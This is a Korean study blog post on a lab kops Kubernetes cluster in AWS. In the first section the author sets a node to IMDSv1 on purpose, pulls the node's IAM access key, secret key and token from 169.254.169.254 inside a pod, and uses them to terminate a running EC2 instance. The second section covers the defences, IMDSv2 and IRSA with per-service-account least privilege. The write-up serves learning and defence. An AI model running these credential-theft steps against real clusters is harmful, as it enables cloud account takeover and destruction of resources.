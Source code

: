 ```yaml
---
layout: post
title: pkos) aws에서 권한 훔치기
category:
  - study
  - aws
tags:
  - study
  - aws
---
```



### instance metadata


실습환경은 어느 때와 같이 kops로 만든 cluster이지만, 취약하게 만들기 위하여 instanceMetadata이 필요했다. 수정에 앞서 우선.. aws를 그렇게 잘아는 것이 아니였어서 인스턴스 메타데이터가 뭔지부터 찾아봤다.

독스를 보면 '인스턴스 메타데이터는 실행 중인 인스턴스를 구성하거나 관리하는 데 사용할 수 있는 인스턴스에 대한 데이터입니다'이라고 나와있다. 인스턴스와 관련된 모든 정보를 가지고 있는 것이라 볼 수 있다. [🔗](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)

아무런 설정 없이 생성을 하면 기본적으로 IMDSv2(instance metadata service version2)로 설정되어있다. 

이 때 인스턴스에 접근하여 독스의 내용에따라 '인스턴스 메타데이터 서비스(IMDS)의 IPv4 주소를 사용합니다 169.254.169.254' 로 호출을 시도해봤다. IMDSv2의 경우 메타데이터에 접근하려면 세션 토큰이 필요하기 때문에 권한이 부족하여 401 오류가 발생했다. 이와 다르게 IMDSv1의 경우는 세션토큰 없이 응답을 받을 수 있다고 하여 변경을 해보았다. [🔗](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) 

![1-0](/assets/img/pkos/awsinstancemetadata/1-0.png)

 콘솔에서의 인스턴스 요약에 보면 IMDSv2: Required라고 있는 것을 '작업>인스턴스 설정>Modify instance metadata options'에 가서 Optional로 변경해주었다. 이 경우, v1과 v2가 요청에 따라 구분되어 동작한다. 토큰없이도 응답을 받은 것을 아래이미지로 확인 할 수 있다.  

![1-1](/assets/img/pkos/awsinstancemetadata/1-1.png)

안에 뭐가 들어있는지 확인해보면 해당 인스턴스의 모든 정보들이 담겨있다. 이미지나 호스트네임은 물론.. 인스턴스가 물고있는 iam의 access key, secret key, token까지 모두 확인이 가능하다. [🔗](https://docs.aws.amazon.com/ko_kr/snowball/latest/snowcone-guide/imds-code-examples.html)

![1-2](/assets/img/pkos/awsinstancemetadata/1-2.png)



위에서 알게된 것을 토대로, pod의 인스턴스메타데이터를 통해 키를 얻어 aws 리소스에 명령을 내리는 테스트를 진행해보았다. 우선, 보안을 취약하게 만들기 위해 위에서 본 인스턴스 메타데이터를 하나의 노드에만 변경하였다. [🔗]( https://kops.sigs.k8s.io/instance_groups/#instancemetadata)

```
(nyoung:N/A) [root@kops-ec2 ~]# kops edit ig nodes-ap-northeast-2a

...
spec:
  instanceMetadata:
# IMDSv1으로 변경
    httpTokens: optional 
...

(nyoung:N/A) [root@kops-ec2 ~]# kops update cluster --yes && echo && sleep 3 && kops rolling-update cluster --yes
```

인스턴스메타데이터를 얻을 파드를 nicolaka/netshoot 이미지를 사용하여 각 노드에 하나씩 배포한 뒤, 각 파드에서 169.254.169.254를 호출해보았다. 어떤 파드가 수정된 노드에 올라가있는지.. 아주 잘 보인다.

```
# 명령어를 쉽게 내리기 위해 각 파드 이름을 변수처리해줬다.
# PODNAME1=$(kubectl get pod -l app=netshoot-pod -o jsonpath={.items[0].metadata.name})
# PODNAME2=$(kubectl get pod -l app=netshoot-pod -o jsonpath={.items[1].metadata.name})


# 반환되지 않는 것으로 보아, v2를 사용 중인 노드에 배포된 것으로 확인
(nyoung:N/A) [root@kops-ec2 ~]# kubectl exec -it $PODNAME2 -- curl 169.254.169.254 ;echo

(nyoung:N/A) [root@kops-ec2 ~]# kubectl exec -it $PODNAME1 -- curl 169.254.169.254 ;echo
1.0
2007-01-19
2007-03-01
2007-08-29
2007-10-10
2007-12-15
2008-02-01

# 아래와 같이 자격증명에 필요한 정보를 얻는다.
(nyoung:N/A) [root@kops-ec2 ~]# k exec -it $PODNAME1 -- curl 169.254.169.254/latest/meta-data/iam/security-credentials/nodes.$KOPS_CLUSTER_NAME | jq
{
  "Code": "Success",
  "LastUpdated": "2023-04-03T14:26:51Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": ACCESSKEYID,
  "SecretAccessKey": SECRETACCESSKEY,
  "Token": TOKEN,
  "Expiration": "2023-04-03T21:02:27Z"
}
```

방금 전 얻은 키를 사용할 파드를 amazon/aws-cli 이미지를 사용하여 올렸다. 올린 파드에 접속후, 획득한 정보를 환경변수에 넣어서 자격증명에 사용했다. [🔗](https://docs.aws.amazon.com/ko_kr/IAM/latest/UserGuide/id_credentials_temp_use-resources.html) 자격 증명 후, 위의 권한을 사용하여 aws 내의 리소에 접근해보았다. 

현재 상태가 runing 중인 인스턴스를 종료하는 명령어를 실행하였다. 이 때 사용되는 파드로부터 훔친권한은 노드에 붙어있는 iam이기 때문에, 해당 iam이 권한이 있어야 동작한다.  


위: aws cli image를 사용한 pod에서 자격증명을 한 상태
아래: aws ec2의 상태를 확인

명령어를 내리기 전 아래창을 통해 인스턴스가 실행 중임을 확인
![1-3](/assets/img/pkos/awsinstancemetadata/1-3.png)

윗창에서 명령어를 내리면 상태 값에 나오지 않는 것을 확인
![1-4](/assets/img/pkos/awsinstancemetadata/1-4.png)

콘솔에서 보면 종료 중인 것으로 확인된다.
![1-5](/assets/img/pkos/awsinstancemetadata/1-5.png)


이에대한 대응방안으로는 인스턴스메타데이터에 쉽게 접근하지 못하도록 IMDSv2으로 버전으로 제한하거나 IRSA을 이용하여 파드가 노드의 iam을 가져가는 것이 아니라 sa에 별개의 iam을 연결하여 사용하는 방안이 있다. 

다음 테스트를 진행하기 위해 위에서 진행했던 파드를 모두 삭제했다.



### irsa


kubernetes의 sa에 aws의 iam을 연결하는 방법이 aws에서는 IRSA(IAM Role for Service Account)을 통해 구성이 가능하다. 이 작업을 위해서는 외부에서 aws의 iam을 자격증명 할 수 있도록  openid connect 설정이 필요하다. [🔗](https://openid.net/connect/)
eks의 경우에는 해당 작업이 필요없지만, 테스트환경인 kops cluster에서는 cluster spec을 변경해야한다. [🔗](https://kops.sigs.k8s.io/cluster_spec/#service-account-issuer-discovery-and-aws-iam-roles-for-service-accounts-irsa) [🔗](https://kops.sigs.k8s.io/addons/#pod-identity-webhook)


```
(nyoung:N/A) [root@kops-ec2 ~]# kops edit cluster

...
spec:
# openid connect provider의 엔드포인트로 public S3 bucket지정 
# allUsers에 대해 read권한이 열려있어야함
  serviceAccountIssuerDiscovery:
    discoveryStore: s3://nyoung-publicly-readable-store
# openid connect provider 활성화
	  enableAWSOIDCProvider: true
  certManager:
    enabled: true
# aws권한으로 sa에서 역할을 할 수 있도록 활성화
  podIdentityWebhook:
    enabled: true

  iam:
# iam의 policy arn과 sa 작성
    ServiceAccountExternalPermissions:
    - name: testsa
      aws:
        policyARNs:
        - arn:aws:iam::643127389001:policy/nyoung-test 
# 만약 sa마다 정책을 다르게 가져간다면 아래에 추가해주면 된다.
#   - name: another-sa
#     ...
...


 (nyoung:N/A) [root@kops-ec2 ~]# kops update cluster --yes && echo && sleep 3 && kops rolling-update cluster --yes
```

업데이트 후에 콘솔에서 iam > 자격증명 공급자를 보면, openid connect provider가 생성된 것을 볼 수 있고, 버킷에는 인증에 필요한 정보(openid connect 의 구성정보)가 생성된 것을 볼 수 있다. 인증 시에는 버킷내에 생성된 openid connect configure file의 issuer url을 따라 provider 정보를 확인하고 jwks uri로 토큰을 가져와 검증하게된다.

파일 내에 이런식으로 작성되어있다.
...
"issuer": "[https://nyoung-publicly-readable-store.s3.ap-northeast-2.amazonaws.com](https://nyoung-publicly-readable-store.s3.ap-northeast-2.amazonaws.com/)",
"jwks_uri": "[https://nyoung-publicly-readable-store.s3.ap-northeast-2.amazonaws.com/openid/v1/jwks](https://nyoung-publicly-readable-store.s3.ap-northeast-2.amazonaws.com/openid/v1/jwks)",
...


![1-6](/assets/img/pkos/awsinstancemetadata/1-6.png)


그럼 이제 iam과 연결된 sa를 사용하여 권한을 제대로 부여받았는지 확인해보았다. 
sa 생성한 뒤, amazon/aws-cli이미지로 두개의 파드를 생성했다.


![1-7](/assets/img/pkos/awsinstancemetadata/1-7.png)

sa를 적용하지 않고 그냥 node의 iam을 가져가는 testpo는 s3 리스트를 가져올 수 없지만, s3 리스트를 볼 수 있는 iam이 연결된 sa를 붙인 testpo-sa는 확인이 가능하다. 

sa가 붙은 파드 내부를 보면 환경변수와 볼륨이 마운트 되어있는 것을 볼 수가 있다.  

```
...
Environment:
      AWS_ROLE_ARN:                 arn:aws:iam::643127389001:role/testsa.default.sa.nyoung.xyz
      AWS_WEB_IDENTITY_TOKEN_FILE:  /var/run/secrets/eks.amazonaws.com/serviceaccount/token
    Mounts:
      /var/run/secrets/eks.amazonaws.com/serviceaccount from aws-iam-token (ro)

Volumes:
  aws-iam-token:
    Type:                    Projected (a volume that contains injected data from multiple sources)
    TokenExpirationSeconds:  86400
...
```

만든적없는 role arn이 붙어있어서 콘솔을 확인해봤는데.. 위에서 podIdentityWebhook을 활성화 해줌으로 sa가 iam의 정책과 연결되면서 iam의 역할을 만든 것을 확인할 수 있다.

![1-8](/assets/img/pkos/awsinstancemetadata/1-8.png)


이런식으로 각 파드에 필요한 권한만큼만 할당하는 것이, 만약 메타데이터가 유출되더라도.. 최소한의 피해를 막을 수 있는 방안으로 보인다.

 





